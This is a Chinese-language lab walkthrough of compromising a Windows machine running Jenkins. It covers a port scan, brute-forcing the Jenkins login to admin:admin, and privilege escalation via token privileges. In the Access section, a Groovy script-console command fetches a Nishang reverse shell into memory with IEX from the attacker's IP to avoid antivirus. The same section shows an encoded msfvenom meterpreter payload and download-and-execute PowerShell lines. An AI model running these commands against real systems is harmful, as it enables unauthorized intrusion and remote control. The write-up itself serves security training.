








# Recon:
`PORT     STATE SERVICE    VERSION`
`80/tcp   open  http       Microsoft IIS httpd 7.5`
`3389/tcp open  tcpwrapped`
`8080/tcp open  http       Jetty 9.4.z-SNAPSHOT`
nse执行的漏洞脚本都没有反映，所以我们要进一步观察，当然，这份扫描结果显示了两个运行着http server的端口，我们来一一排查：
首先是`http://10.48.167.107:80`：

有点莫名其妙，不过为了严谨起见，我们还是检查一下图片的元数据：
==`└─➤ exiftool bruce.jpg`==     
`ExifTool Version Number         : 13.36`
`File Name                       : bruce.jpg`
`Directory                       : .`
`File Size                       : 33 kB`
`File Modification Date/Time     : 2026:01:10 07:35:30+08:00`
`File Access Date/Time           : 2026:01:10 07:35:30+08:00`
`File Inode Change Date/Time     : 2026:01:10 07:35:30+08:00`
`File Permissions                : -rw-rw-r--`
`File Type                       : JPEG`
`File Type Extension             : jpg`
`MIME Type                       : image/jpeg`
`JFIF Version                    : 1.01`
`Resolution Unit                 : inches`
`X Resolution                    : 96`
`Y Resolution                    : 96`
`Image Width                     : 458`
`Image Height                    : 640`
`Encoding Process                : Progressive DCT, Huffman coding`
`Bits Per Sample                 : 8`
`Color Components                : 3`
`Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)`
`Image Size                      : 458x640`
`Megapixels                      : 0.293`

看上去也没有什么有用的信息，我们来看看`http://10.48.167.107:8080`：

这是一个登录页面(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it)，既然有登录页面，那么必然会有弱口令爆破的思路，这里我们使用burpsuite-intruder-cluster bombs的方式来进行爆破，选用的字典是`/Usernames/top-usernames-shortlist.txt`和`/Passwords/Common-Credentials/10k-most-common.txt`

通过抓包可以看到除了上传的用户名和密码参数，还带了一个cookie，所以我们要在每个post前面加上一个request请求并更新cookie的宏命令，具体操作就不赘述，直接看结果：

# Access:
因为一般登录都重定向，所以状态码都是302,这里只要看返回的长度即可，一般登录成功的返回长度更短，这里的结果就是：admin:admin。我们直接从网页登进去看看：

在manage jinkins的列表下我们可以找到script console，这就是我们操作的地方

思路是这样，我们将使用一个reverse-shell的脚本让目标回连本机，脚本可以参考：`https://github.com/samratashok/nishang`，我们这次不把脚本下载过去，使用iex的方法直接通过字符串的形式把脚本读取到内存中执行，这样可以有效避免被杀毒软件拿下：
`def process = "powershell.exe -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.129.242/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.129.242 -Port 4444\"".execute()`
`println "Reverse Shell Triggered!"`
接着我们就可以直接拿到shell：

为了让提权更简单，我们可以将普通的shell转为专业的meterpreter，首先，我们先用msfvenom生成一个二进制文件：
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`
接着我们开启监听：
`msfconsole -q`
`use exploit/multi/handler` 
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST <你的IP>`
`set LPORT 4443`
`run`
然后同样的，让目标下载并执行：
`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.129.242/shell-name.exe', 'C:\Users\Public\shell.exe')"`
`powershell -c "Start-Process 'C:\Users\Public\shell.exe'"`
boom!我们就顺利拿到了meterpreter：
 

# Escalation：
Windows 使用 **Tokens**（令牌）来确保账户拥有执行特定操作的正确 **Privileges**（权限）。当用户登录或通过身份验证时，账户令牌会被分配给该账户。这通常由 `LSASS.exe` 执行。

有些权限天生就带有“后门”属性，一旦你拿到的账户拥有这些权限，提权就会变得非常容易：
- **SeImpersonatePrivilege (模拟令牌权限)：** 这是最有名的权限。如果你有它，你可以运行 **PrintSpoofer** 或 **JuicyPotato** 等工具直接升到 `SYSTEM`。
- **SeDebugPrivilege (调试权限)：** 允许你检查并更改任何进程的内存。拥有它意味着你可以把代码注入到 `lsass.exe` 提取明文密码。
- **SeBackupPrivilege / SeRestorePrivilege：** 备份/恢复权限。有了它，你可以读取系统中任何文件（比如 SAM 数据库），即使你没有读取权限。
- **SeTakeOwnershipPrivilege (取得所有权权限)：** 允许你强行夺取系统内任何文件或对象的所有权。

我们现在来看看我们目前的用户拥有什么权限：`whoami /priv`

我们可以注意到==SeDebugPrivilege, SeImpersonatePrivilege==
- **SeDebugPrivilege (调试权限):** 允许你的进程查看甚至修改任何其他进程的内存。这意味着你可以直接向具有高权限的系统进程（如 `lsass.exe`）注入代码。
- **SeImpersonatePrivilege (模拟权限):** 允许你创建一个进程去“冒充”另一个用户的安全上下文。只要某个高权限账户（如 `SYSTEM` 或 `Administrator`）曾经在系统上留下过 **Token** (令牌)，你就可以直接“拿来”使用。

我们将使用incognito来完成工作：
**Incognito** 原本是一个独立的开源工具，后来被集成到了 **Metasploit Framework** (MSF, Metasploit 框架) 中。它能让你像挑衣服一样选择并使用系统中的各类令牌。

